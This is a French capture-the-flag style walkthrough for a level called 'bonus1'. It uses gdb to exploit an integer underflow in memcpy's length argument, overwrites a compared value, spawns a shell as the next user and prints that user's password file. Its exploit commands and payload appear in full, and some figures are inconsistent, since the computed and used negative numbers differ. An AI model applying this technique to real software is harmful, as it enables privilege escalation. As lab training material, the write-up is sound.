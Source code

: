 #  Shell Code Exploitation

En décompilant l'exécutable, on remarque que le programme doit passer 2 conditions qui lui permettront de lancer un `shell` avec les droits de bonus2.

La première condition, est que notre premier argument doit-être inférieur à 10. 
Notre deuxième condition est que notre premier argument soit égal à `0x574f4c46` soit `1464814662`en base 10.
```C
arg1 = atoi(argv[1]);
if (arg1 < 10) {
	if (argv[1] == 0x574f4c46)
		execl("/bin/sh");
}
```
Entre ces deux conditions, il y a un `memcpy`, que nous allons utiliser afin de faire notre exploit. 

```C
memcpy(buffer, argv[2], (len(argv[1]) * 4));
```

Voici le prototype de la fonction `memcpy`:
```
void  *memcpy(void  *dest,  const  void  * src,  size_t n)
```
On voit que le troisième argument de `memcpy` est un `size_t`. Le fait que cela soit un size_t va nous être très utile, puisque qu'il n'y a pas de nombre négatif avec ce type. Nous allons donc pouvoir faire un `underflow`

Il va donc falloir qu'on change la valeur de notre premier argument afin qu'elle coincide avec `0x574f4c46`.

Il s'avère qu'on a la possibilité de passer des nombres négatifs comme premier argument. En prenant un nombre très petit, on peut faire un `underflow`. Voyons tout ça dans `gdb`

```
> gdb ./bonus1
(gdb) disass main 
[...]
   0x08048470 <+76>:	mov    %eax,(%esp)
   0x08048473 <+79>:	call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:	cmpl   $0x574f4c46,0x3c(%esp)
```
On voit un call a `memcpy`, on va donc break juste après, sur la comparaison  et lancer le programme avec différentes valeurs.
```
(gdb) break *0x08048478
[...]
(gdb) r 8 A
[...]
(gdb) x/50wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000020	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x6e69622f
0xbffff6d0:	0x7361622f	0x45540068	0x783d4d52	0x6d726574
0xbffff6e0:	0x3635322d	0x00000000	0x080484b9	0x00000008
(gdb) x $esp+0x3c
[...]
0xbffff6ec:	0x00000008
```
On affiche esp juste après l'appel à memcpy, au moment de la comparaison, on peut donc voir `0x00000020`, ce qui donne 32 en decimal. Ce qui correspond donc à notre premier argument après memcpy. La multiplication par 4 dans le `memcpy` fonctionne donc bien.
On retrouve bien notre `8` au moment de la comparaison.
Notre début de buffer est donc à l'adresse `0xbffff6c4`.


Nous voulons maintenant savoir quel valeur nous devons mettre afin que notre programme exécute bien un shell. 
Nous avons notre `adresse de cmp`ainsi que notre adresse de `debut de buffer`.
Nous allons donc faire 
```
[Adresse de cmp]-[buffer]
[0xbffff6ec] - [0xbffff6c4] = 0x28 = 40
```
On peut vérifier cela avec gdb.
```
(gdb)x/50wx $esp
[...]
0xbffff6b0:	0xbffff6c4	0xbffff8e6	0x00000008	0x080482fd
0xbffff6c0:	0xb7fd13e4	0x48530041	0x3d4c4c45	0x080484d1
								^Début de buffer = 0xbffff6c4
0xbffff6d0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
0xbffff6e0:	0xb7fed280	0x00000000	0x080484b9	0x00000002
											 ^fin de buffer = 0xbffff6ec
```
Si on fait le calcul à la main on a 
```
3 * 4 + 4 * 4 + 3 * 4 = 40
````
Sauf que notre dernière adresse n'est pas pris en compte. On doit donc ajouter 4 pour avoir la bonne taille.

On divise donc 44 / 4 car il sera multiplié par 4 dans le memcpy.
On obtient donc 11. Il va donc falloir multiplier par 11 la valeur de comparaison (`0x574f4c46`) .
Cette valeur de comparaison en little indian est donc `\x46\x4c\x4f\x57`.

On peut maintenant tester avec le `intmin` +  44.
```
-2147483647 + 44 = -2147483603
```

```
(gdb) break *0x08048473
[...]
(gdb) r -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*11'`
[...]
(gdb) continue
[...]
process 3514 is executing new program: /bin/dash
```
Notre programme se lance bien !
```
./bonus1 -2147483607 `python -c 'print "\x46\x4c\x4f\x57"*164'`
[...]
$whoami
[...]
bonus2
$ cat /home/user/bonus2/.pass
[...]
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```